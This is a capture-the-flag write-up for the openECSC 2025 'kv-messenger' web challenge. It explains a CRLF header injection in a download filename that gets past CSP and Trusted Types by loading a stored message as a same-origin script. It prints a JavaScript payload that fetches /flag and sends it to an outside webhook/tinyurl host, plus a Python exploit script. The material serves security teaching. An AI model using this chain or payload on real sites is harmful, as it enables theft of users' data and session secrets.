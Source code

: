 # openECSC 2025

## Challenge: kv-messenger

## Tags: web

## Difficulty: Medium

## Table of Contents

- [Solution Overview](#solution-overview)
- [Tools Used](#tools-used)
- [Solution](#solution)
- [Solution Script](#solution-script)
- [Flag](#flag)

### Solution Overview

This challenge requires bypassing a strict CSP policy that enforces Trusted Types and only allows same-origin scripts. The solution exploits:

1. **CRLF injection** in the `filename` parameter of `/download` to inject arbitrary HTTP headers
2. **Content-Type header injection** to serve stored messages as `application/javascript` instead of HTML
3. **Same-origin script loading** via `<script src>` to bypass Trusted Types restrictions (CSP allows `script-src 'self'`)
4. **88-byte response truncation** workaround using URL shorteners to fit the XSS payload within the limited response body

The attack chain: Store JS payload → CRLF inject Content-Type header → Load as same-origin script in victim page → Exfiltrate flag.

### Solution

#### Initial Recon

The challenge presents a simple key-value message storage application. Users can store messages and download them as HTML files. There's also a `/flag` endpoint that requires a secret cookie (which the bot has).

**Goal**: XSS the bot to steal its cookie and fetch `/flag`.

First roadblock? This CSP:

```
default-src 'self'; 
script-src 'self'; 
script-src-elem 'self'; 
base-uri 'none'; 
object-src 'none'; 
frame-ancestors 'none'; 
frame-src 'none'; 
require-trusted-types-for 'script';
```

Translation: "No inline scripts, no `eval()`, no external scripts, and you MUST use Trusted Types." 

Cool cool cool... 😅

#### The CSP Wall

The application wraps user messages in HTML:

```python
def generateHtmlMessage(uuid: str) -> str:
    return f'<h1>Message (UUIDv4: {uuid})></h1><code><pre>{content}</pre></code>'
```

I can inject HTML like `</pre></code><img src=x onerror=alert(1)>`, but CSP blocks inline event handlers. Even if I could inject `<script>`, CSP requires Trusted Types, making it nearly impossible.

**Dead end #1**: Direct HTML injection with inline scripts ❌

#### Finding the CRLF Injection

The `/download` endpoint has an interesting vulnerability in line 154:

```python
headers = [ { 'Content-Disposition': f'attachment; filename="{filename}.html"' } ]
```

The `filename` parameter is user-controlled and **not sanitized**. This means I can inject CRLF characters (`\r\n`) to add arbitrary HTTP headers!

```python
filename = 'test"\r\nX-Custom: injected'
# Results in:
# Content-Disposition: attachment; filename="test"
# X-Custom: injected.html"
```

**Key insight**: I can inject `Content-Type: application/javascript` to make the browser interpret our message content as JavaScript instead of HTML!

But wait... CSP still blocks scripts from non-`'self'` origins. How does this help?

#### The "Aha!" Moment

Here's the trick: **same-origin script loading**! 

The CSP policy allows `script-src 'self'`, which means scripts loaded from the same origin are trusted. If I:

1. Store JavaScript code as a message
2. Use CRLF injection to serve it with `Content-Type: application/javascript`
3. Load it via `<script src="http://localhost:8000/download?uuid=...&filename=...">` in another message

The browser sees it as a legitimate same-origin script and executes it! 🎉

**Three-stage attack**:
```
Message 1 (JS payload) → CRLF inject Content-Type → Load via <script src> in Message 2 → Bot visits Message 2 → JS executes → Flag stolen
```

####The 88-Byte Problem

Now for the fun part. My initial JavaScript payload was:

```javascript
fetch("/flag").then(r=>r.text()).then(d=>location="https://webhook.site/8b78691f-3d1f-4ca1-bcaa-0bcb344a8508?f="+d)
```

**Length**: 127 bytes  
**Problem**: The response gets truncated at exactly 88 bytes

Why? The HTTP server calculates `Content-Length` **before** our CRLF injection adds the `Content-Type` header. The normal HTML response for a single-character message is exactly 88 bytes:

```html
<h1>Message (UUIDv4: xxxxxxxx-...)></h1><code><pre>x</pre></code>
```

When I inject headers to change the content type, the browser still only reads 88 bytes of the body, cutting off our JavaScript mid-execution.

**Optimization attempts**:
1. Use protocol-relative URL: `//webhook.site/...` → Saved 6 bytes
2. Use `.json()` instead of `.text()` → Saved 3 bytes  
3. Extract just `d.value` instead of full response → Saved 2 bytes

**Final length**: Still 109 bytes. Still 21 bytes too long.

**Solution**: Use a URL shortener!

```javascript
fetch("/flag").then(r=>r.json()).then(d=>location="//tinyurl.com/2te9sk4y?f="+d.value)
```

**Final length**: 86 bytes ✅

The shortened URL (`tinyurl.com/2te9sk4y` → `webhook.site/8b78691f-...`) saved 37 characters, giving me the breathing room I needed!

#### Solution Script

The exploit works as follows:

1. **Store JS payload** with a short message (just `"x"`) to keep the base HTML small
2. **CRLF injection** the `Content-Type: application/javascript` header via the `filename` parameter
3. **Create HTML message** that breaks out of the `<pre>` tag and loads our JS via `<script src>`
4. **Send to bot** and wait for the exfiltrated flag

```python
# Store JavaScript as message
r = requests.post(f"{TARGET}/message", json={"value": "x"})
uuid = r.json()['uuid']

# CRLF injection to serve as JavaScript
js = 'fetch("/flag").then(r=>r.json()).then(d=>location="//tinyurl.com/2te9sk4y?f="+d.value)'
filename = f'x"\r\nContent-Type: application/javascript\r\n\r\n{js}'

# Create HTML that loads the JS
script_src = f"http://localhost:8000/download?uuid={uuid}&filename={urllib.parse.quote(filename)}"
html = f'</pre></code><script src="{script_src}"></script><code><pre>'
r = requests.post(f"{TARGET}/message", json={"value": html})
html_uuid = r.json()['uuid']

# Send to bot
bot_url = f"http://localhost:8000/download?uuid={html_uuid}&view=True"
requests.post(f"{TARGET}/report", json={"url": bot_url})
```

Full exploit: [exploit.py](exploit.py)

## Flag

**`openECSC{c21f_1nj3c710n_4nd_73_f02_7h3_w1n}`**

